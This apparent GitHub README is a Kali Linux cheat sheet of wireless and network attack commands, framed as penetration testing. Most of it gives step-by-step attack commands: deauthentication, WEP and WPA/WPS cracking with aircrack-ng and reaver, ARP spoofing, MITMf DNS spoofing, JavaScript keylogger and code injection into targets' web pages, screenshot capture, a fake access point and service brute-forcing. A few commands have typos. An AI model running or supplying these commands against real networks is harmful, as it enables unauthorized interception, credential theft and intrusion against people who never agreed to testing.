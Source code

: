 # Useful Hacking and Penetration Testing Commands

Useful commands in Kali Linux for penetration testing and ethical hacking

## Helpful Linux Commands

1. zip a file: `tar czvf <filename>`
2. unzip file: `tar xzvf <filename>`
3. network info: `netstat`
4. last user logged in the system: `last`
5. who is logged in: `who` or `w`: 
6. network downloader: `wget <url-link>`
7. change permission: `chmod`
8. send file to a remote computer: `scp /path/to/file username@remoteIP:~/path/to/file`
9. From remote server to local computer: `scp username@remoteIP:~/path/to/file /path/to/file` 
10. View information about your own device: `ifconfig`
11. Veiw information about wireless interfaces: `iwconfig`
12. Change wireless adapter into monitor mode: `iwconfig <InterfaceName> mode monitor`
13. Shows routers: `route -n`
14. Scan connected devices in the network: `nmap -sP 192.168.1.1/24`



## Preconnection Attack: Airodump-ng

Discover wireless networks within range:
```bash
airodump-ng <infterface>
```

To sniff packets in the selected network: 

```bash
airodump-ng --bssid <TargetMacAddress> --channel <ChannelOfTargetNetwork> --write <FileName> <interface> 
```

The test file will be available with the .cap file. 
View the .cap file in ```wireshark test.cap```

## Deauthentication Attack

Disconnect any client fromm any network: 

```bash
aireplay-ng --dauth <NumOfPackets> -a <NetworkMacAddress> -c <TargetClientMacAddress> -e <WifiNname> <iterface>
```
## WEP Cracking

1. Capture a large number of packets with airodump-ng
```bash
airodump-ng --bssid <NetworkMacAddress> --channel <channel> --write <FileName> <interface> 
```
2. Analyse the captured packets and crack the key with aircrack-ng
```bash
aircrack-ng <.capfile>
```
3. output: KEY IS FOUND
4. Remove the colons from the key and use it as password

## Fake Authentication Attack

```bash
aireplay-ng --fakeauth 0 -a <TargetMacAddress> -h <WirelessAdapterMacAddress> <interface>
```
**NOTE: Type "ifconfig" to view wireless adapter mac address (unspec ---> first 12 digits)**

This attack injects packets in the network.

## WPA/WPA2
If WPS is Enable:
1. Displays networks with WPS enabled
```bash 
wash --interface <interface>
```
2. 
```bash
aireplay-ng --fakeauth <30> -a <TargetMacAddress> --interface <interface>
```
3. Run Reaver in another terminal window
```bash
reaver --bssid <TargetMacAddress> --channel <TargetChannel> --interface <interface> -vvv --no-associate
```
**NOTE: if bug error, then download older version of reaver and run ./reaver ____**

4. Results: WPS PIN and WPA PSK

If WPS is disable:
1. Capture Handshake between devices
```bash
airodump-ng --bssid <TargetMacAddress> --channel <Channel> --write <handshake> <interface>
```
- Wait for the handshake
- wait for a new client or disconnect a client with a fake auth attack. 
- WPA handshake stored in the file 

- Create a wordlist
```bash 
crunch [min][max][characters] -T[pattern] -o [FileName]
```
Example:
```bash
crunch 6 8 abc12 -o test.txt
```
2. Wordlist attack 
```bash
aircrack-ng <handshake.cap> -w <WordListFile.txt>
```

## Man In The Middle Attack (MITM)

1. Scan the network IP with `zenmap` 
Example: 192.168.1.1/24

2. To map IP addresses in the network and mac addresses `arp -a`
3. `arpspoof -i <interface> -t <clientIP> <gatewayIP>`
4. In another window. Tell the router I am the victim: `aprspoof -i <interface> -t <gatewayIP> <clientIP>`
5. In another window. Allow Linx be the router and forward packets: `echo 1 > /proc/sys/net/ipv4/ip_forward`

## Man in the Middle Framework (MITMf)

Download the tool `apt-get install mitmf`

```bash 
mitmf --arp --spoof --gateway <gatewayIP> --target <targetIP> <interface>
```
Use wireshark to sniff packets

## DNS Spoofing with MITMf
1. Start the web server: `service apache2 start` (var/www/html)
2. Configure the A records and add the domain you want to change into your IP address (*.___.com = <MyIPAddress>): 
`leafpad /etc/mitmf/mitmf.conf`
3. `mitmf --arp --spoof --gateway <routerIP> --target <targetIP> -i <interface> --dns`

## Capturing Screen of Target with MITMf
Takes screenshots of the target machine 
They are stored into ghe log directory `var/log/mitmf/
(--screenshotter)
```bash 
mitmf --arp --spoof --gateway <gatewayIP> --target <targetIP> <interface> --screen --interval <seconds>
```

## JS Keylogger with MITMf
Injects javascript key logger into a client's webpage
```bash
mitmf --arp --spoof --gateway <gatewayIP> --target <targetIP> <interface> --jskeylogger
```

## MITMf code injection
```bash
mitmf --arp --spoof --gateway <gatewayIP> --target <targetIP> <interface> --inject --js-payload <"javascriptcode">
```
```bash
mitmf --arp --spoof --gateway <gatewayIP> --target <targetIP> <interface> --inject --js-file </path/to/jsfile>
```

## MITMf Upsidedownternet
```bash 
mitmf --arp --spoof --hsts --gateway <routerIP> --target <targetIP> -i <interface> --upsidedownternet
```

**NOTE: if working in real network:**
- Disconnect from virtual network --> Devices --> network --> uncheck (offline) 

## Creating Fake Access Point 
1. Download tool `apt-get intall manatoolkit`
2. `start-nat-simple.sh`
3. Edit the settings: `leafpad /etc/mana-toolkit/hostapd-mana.conf`
- Change interface = <interface> (wlan0)
- ssid = name of the fake network
4. Edit: `leafpad /usr/share/mana-toolkit/run-mana/start-nat/simple.sh`
- upstream = eth0
- phy = <interface> (wlan0)
5. start fake AP: `bash /usr/share/mana-toolkit/run-mana/start-nat-simple.sh`
6. Test it with phone or other machine, NOT host machine. 

## Brutespray 

1. nmap the network with: `nmap -sS -sV 10.0.2.0/24 -vv -n -oA test`
2. `brutespray --file test.gnmap -t 5 -T 2`
3. `cat` the succeeded files. 

## Contributing
Pull requests are welcome. For major changes, please open an issue first to discuss what you would like to change.

Please make sure to update tests as appropriate.

## License
[MIT](https://choosealicense.com/licenses/mit/)